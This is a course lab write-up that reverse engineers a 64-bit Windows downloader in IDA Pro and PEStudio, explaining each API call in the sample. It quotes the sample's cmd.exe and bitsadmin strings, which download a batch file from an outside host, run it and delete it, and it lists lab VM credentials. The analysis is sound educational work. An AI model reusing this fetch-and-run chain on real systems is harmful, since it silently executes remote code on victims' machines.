# Lab 12 - Reverse Engineering a 64-bit Downloader using IDA Pro

---

## Scenario

You have been called by a client to examine a weird sample that was found on one of their developer’s systems. The client thinks this sample could be hiding its true nature of activity.

<br/>

The goal of this lab is to understand how to both debug and reverse engineer a downloader which is widely used by different threat actors.

<br/>

After completing this lab, you will be able to use a disassembler such as IDA Pro to reverse engineer a downloader. You will also use a debugger such as x64dbg to debug the same downloader and understand what malicious activity is being carried by this downloader.

<br/>

192.168.210.10 / AdminELS / Nu3pmkfyX

<br/>

---

## Tools

- x64dbg (or any other 64-bit debugger) 
- IDA Pro (we are using the free version) 
- pestudio (9.0.2) or any other PE Analyzer

<br/>

---

## Task 1: General Sample Info

**Question**

Use a PE file analyzer to extract as much information you can to help you with the reverse engineering process.

<br/>

**Answer**

Open **Downloader.exe** in **PEStudio**:

  

- MD5: 0F57C9201984E46D8AEFE1113828D645
- SHA1: EA26217E97B1024311E3359C85EDDBEDDC603682
- SHA256: F1E6E24655960818A1CBAFF3641AC5CB22FF26ED0EB86986B68CEB10C1F611A4
- PE file (`MZ` / `0x4d5a`)
- 64-bit
- Console application

<br/>

Navigate to **Libraries**:

  

- urlmon.dll - network connectivity (`URLDownloadToFileA`)
- kernel32.dll
- shell32.dll

<br/>

Check **imports**:

  

- URLDownloadToFileA
- ShellExecuteA

<br/>

Check **manifest**:

  

- The program requires Administrator privilege

<br/>

Check **Strings**:

  

- (0x1420) `/C bitsadmin.exe /transfer IND1 /download /priority high https://download.sysinternals.com/files/ShellRunas.zip C:\Windows\Temp\1.zip`
- (0x14A8) `cmd.exe`
- (0x14B8) `c:\Windows\Temp\`
- (0x14D0) `/C tar.exe -xf C:\Windows\Temp\1.zip && del /F c:\Windows\Temp\1.zip`
- (0x1518) `2.zip`
- (0x1520) `https://download.sysinternals.com/files/Autoruns.zip`
- (0x1560) `/C tar.exe -xf C:\Windows\Temp\2.zip && del /F c:\Windows\Temp\2.zip`
- (0x15B0) `/C bitsadmin.exe /transfer IND2 /download /priority high http://www.elsmap.com/file.bat C:\Windows\Temp\file.bat`
- (0x1628) `/C C:\Windows\Temp\file.bat && del /F c:\Windows\Temp\file.bat`

<br/>

---

## Task 2: Locating Main Function

**Question**

Use a disassembler and try to locate where is the main function of this sample.

<br/>

**Answer**

Run **IDA Pro 64-bit** as admin and load the sample:

  

- Leave all as default

  

- IDA will place you at the function that it believes based on its analysis is the start of this program. 
- Note even though we write some code in C/C++ and it starts with `main()` function, this is not the first thing that will be executed, there are many other things that get loaded and executed before main, many as IDA consider that “start”

<br/>

First go to the **Imports** tab:

  

- Many unimportant libraries - MS C's runtime libraries

<br/>

To filter, right-click inside the import tab and click `Modify filters` (`Ctrl + Shift + F`):

  

<br/>

Add filter:

- `If column Library contains api- then exclude`
- `If column Library contains VCRUNTIME then exclude`

  

  


<br/>

Then navigate to `View > Open subviews > Strings` (`Shift + F12`):

  

- Same when doing Static Analysis

<br/>

In the **Function Window** on the left, double click `start`:

  

- 2 function calls: `__security_init_cookie` and `?__scrt_common_mai_seh@@YAHXZ`

<br/>

Double click `__security_init_cookie`, which brings us to the function:

  


- Reference: http://uninformed.org/index.cgi?v=7&a=2&p=5
- Added by the Microsoft Visual Studio Compiler
- Generate the cookie that will be placed in the stack frame of a function call
- It is added at the beginning of the executable to protect the whole executable, so it is actually being called before the entry-point of the program, which we see in different PE analyzers is being called

Note:
You can rename the functoin by selecting the name of the function and then press `N`

<br/>

Move on to `?__scrt_common_mai_seh@@YAHXZ`:

  

<br/>

Also we can see in the **Graph Overview Window** at the bottom left - this gives you an idea of what this function flow looks like.

  

<br/>

Locate the main function by the keyword `_get initial_narrow_environment`:

  

  


- These are the arguments passed to the main function `int main(int argc, char *argv[], char *envp[])`
- `r8` holds the value of `*envp[]`
- `rdx` holds the value of `*argv[]`
- `ecx` holds the value of `argc`
- `main` is a call to `main`

<br/>

Double click `main`, it shows the assembly of the main function.

  


<br/>

---

## Task 3: Reverse Engineering Main Function

**Question**

Reverse engineer the sample to understand what it is doing. Document all the function calls used and how they are being used. Use MSDN for referencing and understanding the functions you find.

<br/>

**Answer**

### Main Block

First note the **Graph Overview**:

  

<br/>

Look at the first block:

  

- The **functoin prologue** (Stack Frame Preparation)
- A number of parameters passed
- A call to a Windows API called `ShellExecuteA`, which is used to perform a specific operatin on a file (e.g. open a file)

```
HINSTANCE ShellExecuteA(
  HWND   hwnd,
  LPCSTR lpOperation,
  LPCSTR lpFile,
  LPCSTR lpParameters,
  LPCSTR lpDirectory,
  INT    nShowCmd
);
```

<br/>

From the code and the details of `ShellExecuteA`:

- `r9 > Parameters > /C bitsadmin.exe /transfer ...`
- `[rsp+38h+nShowCmd] > ebx > 0`
- `r8 > File > cmd.exe`
- `rds > Operation > Open`
- `[rsp+38h+lpDirectory] > rbx > lpDirectory > 0`
- `ecx > 0 > hwnd`

<br/>

Note:
Note the first 4 parameters of a function in a 64-bit program are passed by the registers `rcx`, `rdx`, `r8` and `r9` respectively, and everything else is **on the stack**. Which means:
- `rcx` holds the **handle** --> `hwnd` (A handle to a window)
- `rdx` holds the **lpOperation** --> `open`
- `r8` holds the **lpFile** --> `cmd.exe`
- `r9` holds the `lpParameters` --> Parameters
- Everything else on the `stack` --> `lpDirectory` which is 0 and `nShowCmd` which is also 0

<br/>

We can also double click on the **label Parameters** and it takes you to the details. For example:

  


We can also hover over the label parameters to see the value assigned:

  

<br/>

These let us understand that `ShellExecuteA` is being used to call `cmd.exe`. which is used to execute `bitsadmin.exe /transfer IND1 /ownload /priority high https://download.sysinternals.com/files/ShellRunas.zip C:\Windows\Temp\1.zip`.

<br/>

After calling `ShellExecuteA`, the main block has an assignmnet:

- `lea rdi, Directory`
- `rdi` --> `Directory` --> `c:\\Windows\\Temp\\`

<br/>

### Next to Main block (Block 0)

  

- First we see there are 2 Windows API calls - `Sleep` and `ShellExecuteA`.

<br/>

Here is the API document of `sleep` for https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-sleep:

```
void Sleep(
  DWORD dwMilliseconds
);
```

- It takes 1 parameter - the time interval for which execution is to be suspended
- Referring to the assembly, `mov ecx, 1388h`
- `1388h` = 0x1388 = 5000 - which means the program will sleep for `5000 ms`

<br/>

Next is the function call `ShellExecute` again:

- `r9` --> `aCTarExeXfCWind` --> `/C tar.exe -xf C:\\Windows\\Temp\\1.zip....`
- `[rsp+38h+nShowCmd]` --> `ebx` --> 0
- `r8` --> `File` --> `cmd.exe`
- `[rsp+38h+lpDirectory]` --> `rdi` --> `lpDirectory` --> `c:\\Windows\\Temp\\` (From the assignment in the last block)
- `rdx` --> `Operation` --> `open`
- `ecx` --> 0 --> `hwnd`

<br/>

Based on this analysis, `ShellExecuteA` is used to open `cmd.exe`, which executes `/C tar.exe -xf C:\Windows\Temp\1.zip && del /F c:\Windows\Temp\1.zip`.

<br/>

### Block 1

  

- First we see a function call `URLDownloadToFileA`
- Note: URLDownloadToFile**A** = ANSI
- Note: URLDownloadToFile**W** = Unicode
- https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/ms775123(v=vs.85)

```
HRESULT URLDownloadToFile(
             LPUNKNOWN            pCaller,
             LPCTSTR              szURL,
             LPCTSTR              szFileName,
  _Reserved_ DWORD                dwReserved,
             LPBINDSTATUSCALLBACK lpfnCB
);
```

<br/>

Here is the assignment:

- (`xor r9d, r9d`) --> `r9d` --> 0
- `[rsp+38h+lpDirectory] --> rbx
- `r8` --> `a2Zip` --> `2.zip`
- `rdx` --> `aHttpsDownloadS` --> `https://download.sysinternals.com/files/Autoruns.zip`
- (`xor ecx, ecx`) --> `ecx` --> 0

<br/>

So regarding to the parameters to the `URLDownloadToFileA` call:

- `r9d` --> 0 (NULL) --> pCaller
- `rdx` --> `https://download.sysinternals.com/files/Autoruns.zip` --> szURL
- `r8` --> `2.zip` --> szFileName
- `r9` --> NULL --> dwReserved
- `rbx` --> LPBINDSTATUSCALLBACK --> lpfnCB

<br/>

Therefore, the sample use `URLDownloadToFileA` to downlaod the file from `https://download.sysinternals.com/files/Autoruns.zip`, and save it as `2.zip`.

<br/>

### Block 2

  

- `Sleep` call
- Another `ShellExecuteA` call

<br/>

- (`mov ecx, 1388h`; `cs:Sleep`) --> Sleep for 5000 ms
- (`lea r9, aCTarExeXfCWind_0`) --> `r9` --> `aCTarExeXfCWind_0` -->  `/C tar.exe -xf C:\Windows\Temp\2.zip && del /F c:\Windows\Temp\2.zip`
- (`[rsp+38h+nShowCmd], ebx`) --> 0
- (`lea r8, File`) --> `r8` --> `File` --> `cmd.exe`
- (`[rsp+38h+lpDirectory], rdi`) --> lpDirectory
- (`lea rdx, Operation`) --> `rdx` --> `Operation` --> Open
- (`xor ecx, ecx`) --> `ecx` --> 0 --> hwnd

<br/>

The sample opens `cmd.exe` to run `/C tar.exe -xf C:\Windows\Temp\2.zip && del /F c:\Windows\Temp\2.zip`.

<br/>

### Block 3

  

- Call `ShellExecuteA`

<br/>

Open `cmd.exe` to run `/C bitsadmin.exe /transfer IND2 /download /priority high http://www.elsmap.com/file.bat C:\Windows\Temp\file.bat` - Download `file.bat` from `www.elsmap.com` and save it to `C:\Windows\Temp\file.bat`.

<br/>

### Block 4

  

- Call `Sleep` and `ShellExecuteA`

<br/>

Open `cmd.exe` to run `/C C:\Windows\Temp\file.bat && del /F c:\Windows\Temp\file.bat`. It basically run the batch file `file.bat` and delete it afterwards.

<br/>

However, for the function of `file.bat`, basically we do not know at time point. It is better to understand this in dynamic analysis.

<br/>

### Last block of Main function

  


<br/>

---